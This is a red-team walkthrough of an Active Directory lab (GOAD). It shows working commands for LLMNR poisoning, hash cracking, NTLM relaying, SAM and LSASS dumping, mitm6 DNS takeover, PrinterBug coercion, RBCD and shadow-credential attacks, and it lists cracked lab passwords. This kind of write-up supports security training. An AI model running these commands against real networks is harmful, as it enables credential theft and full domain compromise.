GOAD Part 4 - Network Poisoning and NTLM Relaying
We have now reached one of the most dynamic, fun and operationally devastating phases of our Red Team engagement.
We have now reached one of the most dynamic, fun and operationally devastating phases of our Red Team engagement. Having transitioned from unauthenticated reconnaissance to mapping the forest with valid user credentials, we shift our operational focus to the network layer itself. In this phase, we move beyond simply asking the Domain Controllers for information and instead position ourselves directly inside the data stream.
The core mechanics of this phase rely on exploiting legacy name resolution protocols and architectural quirks within the Windows operating system. In standard Active Directory environments, machines frequently broadcast queries to the local subnet using protocols like Link-Local Multicast Name Resolution (LLMNR) or NetBIOS Name Service (NBT-NS) when they cannot resolve a hostname via DNS.
Since we already have 4 valid users, now let's see what can be done with those users.
- Domain: north.sevenkingdoms.local (User Description)
User: samwell
Pass: Heartsbane - Domain: north.sevenkingdoms.local (ASREP-Roasting)
User: brandon.stark
Pass: iseedeadpeople - Domain: north.sevenkingdoms.local (Password Spray)
User: hodor
Pass: hodor - Domain: north.sevenkingdoms.local (Kerberoasting)
User: jon.snow
Pass: iknownothing
LLMNR/NBT-NS Poisoning and NTLM Stealing
We begin our network-layer offensive by targeting the weakest link in the Windows name resolution hierarchy, utilizing a technique known as broadcast poisoning. While the Active Directory Domain Controllers are the authoritative source for network identities via DNS, Windows workstations retain a fallback mechanism designed for legacy compatibility.
sudo responder -I vmnet2 -dwP -vvv
Flags explanation:
-I: Network interface to use-d: Enable answers for DHCP broadcast requests-w: Start the WPAD rogue proxy server-P: Force NTLM/Basic authentication for the proxy-v: Increase verbosity

After a few more minutes, we also received a connection from eddard.stark.

Cryptographic Analysis
Upon successfully intercepting the broadcast resolution requests via Responder, we secured the NetNTLMv2 cryptographic challenges. We utilized Hashcat with mode 5600 to crack the hashes:
hashcat -m 5600 -a 0 robb_NTLMv2_HASH /usr/share/wordlists/rockyou.txt.gz -O

This process yielded a rapid and critical compromise of the robb.stark identity, revealing the plaintext credential sexywolfy.
NTLM Relay
We shift tactics now from cryptographic exhaustion to active protocol abuse. Since the captured NetNTLMv2 hash for eddard.stark proved resistant to our cracking efforts, it ceases to be a credential we possess and becomes a stream of authentication data we must weaponize in real-time.
First, we need to identify targets with SMB signing disabled:
netexec smb 10.4.10.0/24 --gen-relay-list hosts

Option 1: Automated Secrets Dumping
To execute this attack effectively, we need to spin up two separate terminal instances:
Initialize the Poisoner (Responder):
sudo responder -I eth0 -dw -v
Initialize the Relay (ntlmrelayx):
impacket-ntlmrelayx -tf hosts.txt -smb2support

The output confirms successful authentication and SAM database dump from Castelblack.
Option 2: Interactive SMB Session Relaying
We now shift our strategy from automated data extraction to establishing persistent, interactive control over the victim session.
sudo responder -I eth0 -dw -vvv
ntlmrelayx.py -tf hosts.txt -smb2support -i
nc -nv 127.0.0.1 11001

Option 3: SOCKS Proxy Pivoting
We arrive at the most versatile and powerful variant of the NTLM Relay arsenal. The SOCKS Proxy integration transforms our attack machine into a fully functional authentication gateway.
ntlmrelayx -tf smb_targets.txt -of NTLM_Hash -smb2support -socks

Dumping SAM
proxychains impacket-secretsdump -no-pass NORTH/EDDARD.STARK@10.4.10.22

Dumping LSASS with lsassy
We move from extracting secrets at rest to harvesting secrets in motion by targeting the Local Security Authority Subsystem Service (LSASS).
proxychains lsassy --no-pass -d NORTH -u EDDARD.STARK 10.4.10.22

IPv6 DNS Takeover
This is the pivot point where we graduate from exploiting legacy protocols like LLMNR to exploiting the modern architecture of the Windows Operating System itself.
sudo mitm6 -i eth0 --debug

LDAP Relaying and Resource-Based Constrained Delegation (RBCD)
With mitm6 actively spoofing DNS and directing network traffic to our attack machine, we now need a listener to capture that authentication and weaponize it.
ntlmrelayx.py -6 -wh 'wpadfakeserver.essos.local' -t 'ldaps://meereen.essos.local' --add-computer 'starkcomputer' --delegate-access


Relay-Based Data Dumping
While modifying domain objects to create persistent backdoors is powerful, sometimes our goal is pure, high-volume intelligence gathering without altering the directory state.
ntlmrelayx.py -6 -wh 'wpadfakeserver.essos.local' -t 'ldaps://meereen.essos.local' -l /tmp/loot


Coerced Authentication and Drop The Mic Relaying (CVE-2019-1040)
We have explored methods that rely on waiting for broadcast traffic or actively poisoning DNS, but now we advance to the most aggressive form of interception: Coerced Authentication.
ntlmrelayx.py -t ldaps://meereen.essos.local -smb2support --remove-mic --add-computer 'mrstark3$' --delegate-access --escalate-user 'mrstark3$'
Phase 2: Execution of Coercion (Coercer)
python3 printerbug.py 'essos.local/khal.drago:horse'@'braavos.essos.local' 10.4.10.179

getST.py -spn HOST/BRAAVOS.ESSOS.LOCAL -impersonate Administrator -dc-ip 10.4.10.12 'ESSOS.LOCAL/mrstark3$:IZq5,#*}D4)HDq-'

Getting Administrator Service Ticket
export KRB5CCNAME=Administrator.ccache
secretsdump.py -k -no-pass 'ESSOS.LOCAL/administrator@braavos.essos.local'

Shadow Credentials (msDS-KeyCredentialLink)
We now advance to a stealthier and more modern persistence technique known as Shadow Credentials. This attack targets a specific attribute introduced to support "Windows Hello for Business" called msDS-KeyCredentialLink.
Step 1: Configure the Listener
ntlmrelayx.py -t ldaps://meereen.essos.local -smb2support --remove-mic --shadow-credentials

Step 2: Trigger the Authentication
python3 printerbug.py 'essos.local/khal.drago:horse'@'braavos.essos.local' 10.4.10.179

Step 3: Get TGT with PKINIT
python3 PKINITtools/gettgtpkinit.py -cert-pfx QLLw3a2R.pfx -pfx-pass xMzZAZ1diw77ppAqx4nZ essos.local/BRAAVOS$ QLLw3a2R.ccache

export KRB5CCNAME=QLLw3a2R.ccache
poetry run netexec smb braavos.essos.local -k --use-kcache

Summary
By starting with legacy LLMNR/NBT-NS poisoning, we demonstrated how the default chatty nature of Windows protocols exposes credentials on the wire. We then elevated that access using SMB Relaying, turning a standard broadcast into a lethal pivot that granted us administrative control over Castelblack without ever cracking a password.
We then shifted our sights to the Domain Controllers and cross-forest infrastructure. Through IPv6 Takeover (mitm6) and Coerced Authentication (PrinterBug), we proved that we can force high-value targets like Braavos to authenticate to us.
Domain: north.sevenkingdoms.local (Coerced auth smb + ntlmrelayx to ldaps with drop the mic)
- User: sql_svc
- Pass: YouWillNotKerboroast1ngMeeeeee